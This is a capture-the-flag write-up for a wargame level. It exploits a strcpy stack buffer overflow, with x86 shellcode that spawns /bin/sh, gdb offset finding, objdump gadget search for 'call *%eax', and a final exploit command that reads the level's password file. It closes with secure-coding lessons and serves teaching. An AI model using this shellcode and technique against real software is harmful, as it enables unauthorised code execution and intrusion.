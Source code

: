 ## Level 4: don't use unsafe library functions

The source code on this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

The problem is obvious:
`strcpy` is well-known to be unsafe,
it doesn't check if the destination array has enough space to store the source array.
With a sufficiently long command line argument we can overwrite the memory area beyond `buf`.

If you recall from the previous challenge,
the return address is stored on the stack after local variables.
The return address is the address where execution will jump to after executing the current function.
By overwriting `buf`,
we can overwrite the return address,
and thus make the program jump to anywhere we want.

In the previous challenge we made the program jump to the insecure function `run`.
Unfortunately,
in this program there is no such insecure function,
and so no easy target to jump to.
On the other hand,
what if we could bring some insecure code inside and jump there?
For example by injecting it into `buf` through the input string,
and then overwriting the return address to jump to our evil code.

What kind of code should we try to inject?
We could use what is commonly known as *shellcode*:
a small piece of code that typically executes `/bin/sh`,
written in machine language.

Writing the shellcode itself is beyond the scope of this article.
It is thoroughly explained in the Smash The Stack article[5].
Essentially it is a modified version of this simple C program:
```
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
Writing shellcode is not easy.
After compiling such program,
there is more work to do,
for example you may have to rewrite some of the assembly instructions in a way to eliminate NULL bytes,
as `strcpy` won't copy anything after the first `NULL`.

For our purposes,
we will take the finished shellcode from the Smash The Stack article[5]:
```
char shellcode[] =
        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
        "\x80\xe8\xdc\xff\xff\xff/bin/sh";
```
For convenience, let's save it in a shell variable:
```
EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')
```
Next,
we need to find the right position in the input spring where we can overwrite the return address.
The content of the stack will look something like this when we are inside `fun`:
```
0x0000      content of the local variable buf (1024 bytes)
0x0400+?    the return address
```
That is, the return address is somewhere soon after the end of the buffer.
We can find the right position using `gdb`.
When we overwrite the return address with something invalid,
the program crashes with segmentation fault.
When `gdb` reaches such code,
it prints out the address it was trying to jump to.
We can use this to guess the right location.

Let's run the program in `gdb`,
with a sufficiently long input string that will write beyond the end of `buf`,
over the return address:
```
level03@box:/levels/level04$ gdb ./level04
(gdb) run $(python -c 'print "A" * 1100')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
We have successfully overwritten the return address with "A"s,
the program cannot jump to such address so it crashes.
Let's try a shorter string,
something that will help us pinpoint the correct position:
```
(gdb) run $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')

Program received signal SIGSEGV, Segmentation fault.
0x706f6e6d in ?? ()
```
That looks like somewhere in the middle of our `abcd...xyz` sequence.
To find the exact position,
let's check the ASCII codes of these letters:
```
$ echo abcdefghijklmnopqrstuvwxyz | hexdump -C
00000000  61 62 63 64 65 66 67 68  69 6a 6b 6c 6d 6e 6f 70  |abcdefghijklmnop|
00000010  71 72 73 74 75 76 77 78  79 7a 0a                 |qrstuvwxyz.|
0000001b
```
As `m=6d n=6e o=6f p=70`,
the return address is in the place of the letters `mnop`.
Since there are 12 letters before "m",
we can calculate that we need an input string of length 1024 + 12 + 4,
where the last 4 bytes will be the address we want to jump to.
Let's verify this final number with one last test in `gdb`:
```
(gdb) run $(python -c 'print "A" * 1036 + "mmmm"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1036 + "mmmm"')

Program received signal SIGSEGV, Segmentation fault.
0x6d6d6d6d in ?? ()
```
Wonderful, what next?
Our string should start with the shellcode,
followed by some padding until 1036 bytes,
and finally the address to jump to.
Let's check the size of our shellcode:
```
$ printf $EGG | wc -c
45
```
Thus, we will need 1036 - 45 = 991 padding characters.
But what about the address?
We want to jump to the address of `buf`,
but how can we know that?
Unfortunately, we cannot.
In the past,
the stack used to be at the same address in all programs,
which was easy to exploit,
as you could have a good idea where to jump.
As of today,
thanks to address space layout randomization (ASLR) used in modern operating systems,
the start address of the stack is randomized,
making it extremely difficult to guess the right location.

Luckily,
there are other interesting details that we can use:

- On 32-bit x86 processors,
  a function that returns a pointer value places its result in register `%eax`.

- `strcpy` is the last call in the function `fun`,
  so its returned value remains in `%eax` when the function returns.

- There are `call *%eax` instructions inside the program,
  which are suitable jump targets,
  as they execute the code at the address stored in register `%eax`.

That is,
we can put our shellcode at the start of `buf`,
then when `strcpy` returns,
the address of `buf` will be saved in `%eax`,
and so if we overwrite the return address with any of the `call *%eax` instructions,
then our shellcode at the start of `buf` will get executed.

Find the addresses of `call *%eax` instructions using `objdump`:
```
level03@box:/levels/level04$ objdump -d level04 | grep call.*eax
 8048488:   ff 14 85 1c 9f 04 08    call   *0x8049f1c(,%eax,4)
 80484cf:   ff d0                   call   *%eax
 80485fb:   ff d0                   call   *%eax
```
That's it, we can use either `0x080484cf` or `0x080485fb` as the address to jump to:
```
level03@box:/levels/level04$ ./level04 $EGG$(python -c 'print "A" * 991')$(printf '\xcf\x84\x04\x08')
/levels/level04 $ cat /home/level04/.password 
paegeiqu
```

## Lessons to learn

- Don't use unsafe library functions like `strcpy`.

- Always make sure that arrays cannot be written beyond their boundaries.

- Always validate user input, and set reasonable limits to input length.

